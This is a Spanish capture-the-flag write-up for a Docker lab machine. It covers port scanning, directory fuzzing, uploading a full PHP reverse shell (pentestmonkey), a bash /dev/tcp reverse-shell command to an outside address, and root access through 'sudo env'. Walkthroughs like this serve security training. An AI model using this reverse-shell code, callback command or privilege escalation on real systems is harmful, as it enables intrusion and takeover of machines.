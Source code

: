 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129170850](https://github.com/user-attachments/assets/625fb784-e15c-4404-ae86-ef01257a99ea)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129171010](https://github.com/user-attachments/assets/dd899ca4-7367-4e67-b724-b5247bf4a2cb)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20241211175541](https://github.com/user-attachments/assets/d2aa4234-257c-4b88-83b4-f56a04d8c076)

Nos metemos en la web:

![Pasted image 20241211175247](https://github.com/user-attachments/assets/f6f0ecf6-66cf-47d4-be28-38f9024ddd6a)

![Pasted image 20241211175322](https://github.com/user-attachments/assets/01415bb3-7c03-4bca-950d-32c9a12c8d78)

Creamos payload en PHP:

![Pasted image 20241211182210](https://github.com/user-attachments/assets/2b2bc2eb-1707-4941-9ed5-aa7b42a8b188)

Creamos shell.php:

```Bash
nano shell.php
```

![Pasted image 20241211175648](https://github.com/user-attachments/assets/f801fbc0-87d7-4942-9ed2-cf4dcae7b6c0)

Pegamos código PHP:

```PHP
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![Pasted image 20241211182142](https://github.com/user-attachments/assets/d04ee130-2196-4c6c-acf4-5f9e95ed8ae8)

Subimos archivo PHP:

![Pasted image 20241211180228](https://github.com/user-attachments/assets/b5f44bb0-c608-4b6f-9e66-e5ec14d04154)

![Pasted image 20241211180322](https://github.com/user-attachments/assets/9b8bc42b-891c-4b5a-a956-3ccfb9c5070a)

Archivo subido:

![Pasted image 20241211180338](https://github.com/user-attachments/assets/1a2e2bf2-bc74-4ff1-a31f-11b93de718d5)

Comprobamos el archivo:

![Pasted image 20241211180358](https://github.com/user-attachments/assets/579b21df-a931-4833-8e73-b44f304d94cf)

Escuchamos en el puerto 4444:

```Bash
nc -lnvp 4444
```

![Pasted image 20241211180521](https://github.com/user-attachments/assets/cd87fb8e-3271-4317-b853-37e4118fd95c)

Escuchamos en otro puerto 443:

```Bash
nc -lnvp 443
```

![Pasted image 20241211184613](https://github.com/user-attachments/assets/a6020122-6a29-456d-880f-c99dc085d5c8)

Pinchamos en el archivo:

![Pasted image 20241211180553](https://github.com/user-attachments/assets/b4501304-d08c-4b8a-91d2-8167957332d7)

Recibimos conexión:

![Pasted image 20250129173437](https://github.com/user-attachments/assets/b787e7a8-f28a-4715-b9cf-ddfb621a65d1)

Metemos el siguiente comando para enviar la conexión a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/10.0.2.42/443 0>&1"
```

![Pasted image 20250129173458](https://github.com/user-attachments/assets/9040da23-c5b2-486a-996e-a159b3cb1915)

Miramos la otra shell:

![Pasted image 20250129173703](https://github.com/user-attachments/assets/8e89b412-30f6-4a07-a035-baf2d8fb2079)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20241211183648](https://github.com/user-attachments/assets/1be405ef-83c2-4f02-b1f0-86f23ed16e3c)

```Bash
sudo env /bin/bash
```

![Pasted image 20250129173331](https://github.com/user-attachments/assets/962fc77a-a52c-4fb3-a70c-87d42332e84b)

```Bash
/bin/bash -i
```

![Pasted image 20250129173357](https://github.com/user-attachments/assets/5ba49832-273d-4d49-afbd-bdee5ad70d84)

```Bash
whoami
```

![Pasted image 20250129173804](https://github.com/user-attachments/assets/bb0fdbae-9d9d-4681-85d7-00737bff4ccd)
